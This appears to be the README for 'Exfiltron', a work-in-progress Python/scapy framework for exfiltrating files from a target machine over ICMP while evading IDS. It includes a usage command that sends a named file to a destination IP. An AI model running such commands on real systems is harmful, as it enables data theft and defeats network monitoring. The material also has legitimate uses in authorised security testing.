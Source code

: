# Exfiltron
Data Exfiltration Framework 

!!!! Please be aware that is project is in progress and may have parts missing
!!!!

## What does it do?
This framework is meant as a proof of concept for exfiltrating data 
from a target computer. YOU SHOULD NOT USE THIS ON ANYTHING YOU DO 
NOT OWN OR HAVE EXPLICIT PERMISSION TO USE IT ON. Exfiltron is meant to 
evade IDS in order to get data back to you.

## Things you must have before extraction time
* You must have python 2 installed on both the server and the client side
* You must have scapy installed on both the server and the client side

## Sounds great! How do I try it out?
First, get it on your local machine. There are two major files: the client
file (exfiltron.py) and the server file. The client file must be placed on
a target machine along with any modules you wish to use for your extraction
method. SET UP THE SERVER SIDE INFORMATION HERE. After exfiltron.py has
been placed on the target machine, run the following command:

`python exfiltron.py exfiltrationMethod -f filename -d destinationIP [-h] 
[-a]`

* -h is help
* -a is the amount of data you want to fit into each packet. The default is the
number of bytes that normally sit in that packet while the min amount is 1 byte
and the max amount is the MTU minus the size of the packet.

## Methods of Exfiltration
Currently, the following methods of exfiltration are available/in progress:
* ICMP

#### Original Authors
* Adam Sowden
* Andrew Steiner
* Thomas Daniels

